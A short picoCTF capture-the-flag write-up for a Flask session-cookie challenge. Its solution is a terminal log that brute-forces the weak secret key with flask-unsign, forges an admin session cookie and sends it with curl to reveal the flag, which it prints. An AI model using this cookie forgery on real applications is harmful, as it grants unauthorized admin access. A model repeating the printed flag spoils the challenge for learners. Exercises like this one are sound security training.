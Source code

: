 ## Descripción:
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/e99686c2e3e6cdd9e355f1d10c9d80d6/server.py) [http://mercury.picoctf.net:53700/](http://mercury.picoctf.net:53700/)

Hints:
How secure is a flask cookie?
## Solución:
```
┌──(.venv)─(kali㉿kali)-[~/Documents/compartida]
└─$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-zOjw.C0SaI-BZnUjkFEVTmK2Jx3tn68w" --wordlist cookies.txt
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
                                                                                                                                                                                                                                           
┌──(.venv)─(kali㉿kali)-[~/Documents/compartida]
└─$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "peanut butter"                                                                                  

eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-zTmw.e8eZbUTL0skq4ZULBS1EOIP_DJg
                                                                                                                                                                                                                                           
┌──(.venv)─(kali㉿kali)-[~/Documents/compartida]
└─$ 
                                                                                                                                                                                                                                           
┌──(.venv)─(kali㉿kali)-[~/Documents/compartida]
└─$ curl -s http://mercury.picoctf.net:53700/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-zTmw.e8eZbUTL0skq4ZULBS1EOIP_DJg" | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_3646b931}</code></p>


picoCTF{pwn_4ll_th3_cook1E5_3646b931}
```
